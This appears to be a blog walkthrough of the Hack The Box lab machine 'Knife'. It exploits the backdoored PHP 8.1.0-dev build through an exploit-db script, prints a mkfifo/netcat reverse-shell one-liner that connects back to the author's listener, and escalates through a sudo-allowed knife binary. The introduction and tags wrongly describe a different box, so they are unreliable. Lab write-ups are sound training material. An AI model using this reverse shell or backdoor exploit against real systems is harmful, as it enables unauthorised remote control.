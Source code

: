 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 23-12-2023
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP
  - Web
  - RCE
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.jpg)


Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell.


## Portscan

The scan show that we have port 22 and port 80 open with an apache  web server 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 19:04 EST
Nmap scan report for 10.10.10.242
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.23 seconds

                                                        
```

## Website

I found using wappalyzer that the website is using PHP version 8.1.0

![](../assets/images/htb-writeup-knife/web-wappalyzer.png)

I re-checked the headers with burpsuite and discovered that the page was using this specific version PHP 8.1.0-dev. 

![](../assets/images/htb-writeup-knife/web-burpsuite.png)


Doing some research we know that this PHP version was released with a backdoor. This version let you execute code by sending the User-Agentt header. 

![](../assets/images/htb-writeup-knife/web-google.png)

![](../assets/images/htb-writeup-knife/web-exploit-db.png)

## Exploit

Using the script i´ve found in exploitdb i´ve got an non stable shell in the server. 

```
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ ls    
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

To get an interactive shell i set up a listener in my machine running on port 4444 and used a reverse shell comand in the server. 

#### Remote shell execution 
```
└─$ python 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.71 4443 >/tmp/f

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>504 Gateway Timeout</title>
</head><body>
<h1>Gateway Timeout</h1>
<p>The gateway did not receive a timely response
from the upstream server or application.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.10.242 Port 80</address>
</body></html>
```

#### Listener and user flag
```
└─$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.242] 38728
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
```
![](../assets/images/htb-writeup-knife/web-user-txt.png)


## Privilege Escalation

A common way to get privileges in a machine is by searching SUID binaries, which can be executed with the privileges of an owner or group, this can help us to get a privileged shell. 
```
james@knife:/$ sudo -l     
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Ive look for the knife binary that we can run it as root and found that can help us to get the root shell.(https://gtfobins.github.io/)


![](../assets/images/htb-writeup-knife/web-gtfobins.png)

And we have the root flag 

![](../assets/images/htb-writeup-knife/web-root-txt.png)